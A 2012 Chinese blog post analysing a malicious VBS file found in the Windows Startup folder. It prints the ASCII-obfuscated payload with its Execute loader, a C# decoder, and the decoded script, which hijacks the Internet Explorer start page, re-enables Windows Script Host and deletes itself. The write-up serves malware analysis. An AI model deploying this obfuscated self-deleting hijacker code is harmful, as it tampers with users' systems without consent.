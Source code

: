 ```yaml
---
title: 一个恶意vbs脚本的简单解码
tags:
  - C＃
  - windows
  - 安全
  - 笔记
id: 2328
categories:
  - 学习笔记
date: 2012-11-25 09:00:59
---
```


今天把电脑还原到了11月7号。结果eset更新后报C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup这个目录有个zzs.vbs的不受欢迎的程序，当时没什么事，就打开看看。想知道是个什么东西。

由于eset阻止，我就把文件拖出来。改个后缀。发现代码不长，前半段是ascii码编码的。。
<pre class="lang:default decode:true">strs = Array(68,111,13,10,32,32,32,32,83,101,116,32,111,98,106,87,77,73,83,101,114,118,105,99,101,32,61,32,71,101,116,79,98,106,101,99,116,40,34,119,105,110,109,103,109,116,115,58,92,92,46,92,114,111,111,116,92,99,105,109,118,50,34,41,13,10,32,32,32,32,83,101,116,32,99,111,108,80,114,111,99,101,115,115,101,115,32,61,32,111,98,106,87,77,73,83,101,114,118,105,99,101,46,69,120,101,99,81,117,101,114,121,40,34,83,101,108,101,99,116,32,42,32,102,114,111,109,32,87,105,110,51,50,95,80,114,111,99,101,115,115,34,41,13,10,32,32,32,32,70,111,117,110,100,80,114,111,99,101,115,115,32,61,32,48,13,10,32,32,32,32,70,111,114,32,69,97,99,104,32,111,98,106,80,114,111,99,101,115,115,32,73,110,32,99,111,108,80,114,111,99,101,115,115,101,115,13,10,32,32,32,32,32,32,32,32,73,102,32,111,98,106,80,114,111,99,101,115,115,46,78,97,109,101,32,61,32,34,117,115,101,114,105,110,105,116,46,101,120,101,34,32,84,104,101,110,13,10,32,32,32,32,32,32,32,32,32,32,32,32,70,111,117,110,100,80,114,111,99,101,115,115,32,61,32,49,13,10,32,32,32,32,32,32,32,32,32,32,32,32,69,120,105,116,32,70,111,114,13,10,32,32,32,32,32,32,32,32,69,110,100,32,73,102,13,10,32,32,32,32,78,101,120,116,13,10,32,32,32,32,73,102,32,70,111,117,110,100,80,114,111,99,101,115,115,32,61,32,48,32,84,104,101,110,32,69,120,105,116,32,68,111,13,10,32,32,32,32,87,83,99,114,105,112,116,46,83,108,101,101,112,32,49,48,48,13,10,76,111,111,112,13,10,13,10,115,80,97,103,101,32,61,32,34,104,116,116,112,58,47,47,119,119,119,46,57,57,57,46,99,111,109,47,63,111,110,101,34,13,10,13,10,83,101,116,32,111,98,106,83,104,101,108,108,32,61,32,67,114,101,97,116,101,79,98,106,101,99,116,40,34,87,83,99,114,105,112,116,46,83,104,101,108,108,34,41,13,10,111,98,106,83,104,101,108,108,46,82,101,103,87,114,105,116,101,32,34,72,75,67,85,92,83,111,102,116,119,97,114,101,92,77,105,99,114,111,115,111,102,116,92,73,110,116,101,114,110,101,116,32,69,120,112,108,111,114,101,114,92,77,97,105,110,92,83,116,97,114,116,32,80,97,103,101,34,44,32,115,80,97,103,101,13,10,13,10,115,82,101,103,80,97,116,104,32,61,32,34,72,75,76,77,92,83,79,70,84,87,65,82,69,92,77,105,99,114,111,115,111,102,116,92,87,105,110,100,111,119,115,32,83,99,114,105,112,116,32,72,111,115,116,92,83,101,116,116,105,110,103,115,34,13,10,79,110,32,69,114,114,111,114,32,82,101,115,117,109,101,32,78,101,120,116,13,10,105,69,110,97,98,108,101,100,32,61,32,111,98,106,83,104,101,108,108,46,82,101,103,82,101,97,100,32,95,13,10,40,115,82,101,103,80,97,116,104,32,38,32,34,92,69,110,97,98,108,101,100,95,34,41,13,10,73,102,32,69,114,114,46,78,117,109,98,101,114,32,61,32,48,32,84,104,101,110,13,10,32,32,32,32,111,98,106,83,104,101,108,108,46,82,101,103,87,114,105,116,101,32,115,82,101,103,80,97,116,104,32,38,32,34,92,69,110,97,98,108,101,100,34,44,32,105,69,110,97,98,108,101,100,44,32,34,82,69,71,95,68,87,79,82,68,34,13,10,32,32,32,32,111,98,106,83,104,101,108,108,46,82,101,103,68,101,108,101,116,101,32,115,82,101,103,80,97,116,104,32,38,32,34,92,69,110,97,98,108,101,100,95,34,13,10,69,110,100,32,73,102,13,10,13,10,83,101,116,32,111,98,106,83,104,101,108,108,32,61,32,67,114,101,97,116,101,79,98,106,101,99,116,40,34,83,99,114,105,112,116,105,110,103,46,70,105,108,101,83,121,115,116,101,109,79,98,106,101,99,116,34,41,13,10,83,101,116,32,102,32,61,32,111,98,106,83,104,101,108,108,46,71,101,116,70,105,108,101,40,87,83,99,114,105,112,116,46,83,99,114,105,112,116,70,117,108,108,78,97,109,101,41,13,10,73,102,32,102,46,65,116,116,114,105,98,117,116,101,115,32,65,110,100,32,49,32,84,104,101,110,32,102,46,65,116,116,114,105,98,117,116,101,115,32,61,32,102,46,65,116,116,114,105,98,117,116,101,115,32,45,32,49,13,10,111,98,106,83,104,101,108,108,46,68,101,108,101,116,101,70,105,108,101,32,87,83,99,114,105,112,116,46,83,99,114,105,112,116,70,117,108,108,78,97,109,101)</pre>
后半段是
<pre class="lang:default decode:true">For i = 0 To UBound(strs)
    runner = runner &amp; Chr(strs(i))
Next
Execute runner</pre>
虽说对vbs不怎么熟，但也知道vbs经常用来写个启动项啊。加个用户啊。之类的。后半句很好懂。就是把ascii码转换成字符串，然后执行。字面意思看看就行了。其实应该可以直接将Execute runner 改为 MsgBox runner就能输出了。但eset不能关闭。所以最后还是选择用C#来写了。

解码嘛。很简单。VS刚好开着。直接写吧。
<pre class="lang:default decode:true"> byte[] strs = {68，101,116,70,105,108,101,40,87,83,99,114,105,112,116,46,83,99,114,105,112,116,70,117,108,108,78,97,109,101,41,13,10,73,102,32,102,46,65,116,116,114,105,98,117,116,101,115,32,65,110,100,32,49,32,84,104,101,110,32,102,46,65,116,116,114,105,98,117,116,101,115,32,61,32,102,46,65,116,116,114,105,98,117,116,101,115,32,45,32,49,13,10,111,98,106,83,104,101,108,108,46,68,101,108,101,116,101,70,105,108,101,32,87,83,99,114,105,112,116,46,83,99,114,105,112,116,70,117,108,108,78,97,109,101};
        System.Text.ASCIIEncoding asciiEncoding = new System.Text.ASCIIEncoding();
        Console.WriteLine(asciiEncoding.GetString(strs));</pre>
运行后输出
<pre class="lang:default decode:true">Do
    Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
    Set colProcesses = objWMIService.ExecQuery("Select * from Win32_Process")
    FoundProcess = 0
    For Each objProcess In colProcesses
        If objProcess.Name = "userinit.exe" Then
            FoundProcess = 1
            Exit For
        End If
    Next
    If FoundProcess = 0 Then Exit Do
    WScript.Sleep 100
Loop

sPage = "http://www.999.com/?one"

Set objShell = CreateObject("WScript.Shell")
objShell.RegWrite "HKCU\Software\Microsoft\Internet Explorer\Main\Start Page", s
Page

sRegPath = "HKLM\SOFTWARE\Microsoft\Windows Script Host\Settings"
On Error Resume Next
iEnabled = objShell.RegRead _
(sRegPath &amp; "\Enabled_")
If Err.Number = 0 Then
    objShell.RegWrite sRegPath &amp; "\Enabled", iEnabled, "REG_DWORD"
    objShell.RegDelete sRegPath &amp; "\Enabled_"
End If

Set objShell = CreateObject("Scripting.FileSystemObject")
Set f = objShell.GetFile(WScript.ScriptFullName)
If f.Attributes And 1 Then f.Attributes = f.Attributes - 1
objShell.DeleteFile WScript.ScriptFullName</pre>
结合后半段。简单读一读，就知道这个先找了一下userinit.exe进程。然后改了注册表并且设置了浏览器首页为999这个什么网站，我打开发现是个导航站。。人家hao123做个导航站赚钱了。。你们要不要这样跟风啊。。